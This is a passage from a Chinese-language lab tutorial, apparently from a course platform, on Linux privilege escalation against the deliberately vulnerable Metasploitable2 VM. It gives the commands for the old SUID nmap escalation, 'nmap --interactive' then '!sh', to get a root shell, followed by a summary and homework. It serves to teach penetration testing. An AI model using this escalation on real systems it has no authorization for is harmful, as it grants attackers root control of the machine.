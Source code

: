 ![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483510778353.png-wm)


注意单词的拼写，特别是 `nmap`。


### 4.2 使用 nmap 进行提权

该版本的 nmap 也是一个非常老的版本，通过 nmap 选项，能够让用户执行 Shell 命令，在终端中，我们输入如下命令：

```
# 让用户自行 Shell 命令
/usr/bin/nmap --interactive
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480406522209.png-wm)

接着在命令终端中，输入如下命令：

```
#  输入!sh 进行提权
nmap> !sh 
```

接着 `nmap>` 消失，此时，再次使用 `whoami` 命令查看当前用户是谁：

```
# 查看当前的用户是谁
whoami
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480406813156.png-wm)

好了，现在你就是 `root`， `root` 就是你了，提权成功！

目标靶机 Metasploitable2 上的 namp 版本比较老旧，其中的版本漏洞由于目标主机的管理员安全意识比较薄弱，没有及时地更新这些漏洞软件。这些漏洞因为逻辑错误等原因，非常容易被黑客利用，并进行相应的提权。

## 五、总结

该提权实验，首先通过 MSF 终端，对目标主机进行渗透攻击，接着获取一个非 root 的权限，接着再通过查看操作系统的版本信息，内核信息，以及查找可以用的 SUID 文件来提权。综合这些信息后，我们就对漏洞进行一个评估，接着尝试通过可能存在的漏洞，进行 Linux 服务器提权，从而达到掌控目标机器的目的。总结一下该实验的知识点：

- Linux 基本操作命令
- MSF 终端下的攻击流程
- 使用目标主机漏洞进行提权
- 验证是否提权成功

## 六、推荐阅读

在做本实验的课程的同时，推荐大家一些阅读文档，增加对 Linux 提权信息的理解。以下为推荐文档的链接地址：

> http://docs.kali.org/policy/kali-linux-root-user-policy

Youtube 视频（可选，需要翻墙），不影响本次实验的操作，只是增加大家的课外阅读，加深对 Kali 的理解：

> https://www.youtube.com/watch?v=-ib3wzto5m0

## 七、课后作业

完成以下作业，巩固实验知识，在进行动手实验的同时，还要提升自己的理论知识：

- 对本实验的操作，亲自动手实现一遍
- 理解 Linux 服务提权的过程
- 搜索下看是否还有其他的提权漏洞可以利用？

对于不懂的问题，都可随时在[实验楼问答](https://www.shiyanlou.com/questions)中提出，与老师和同学一起交流。
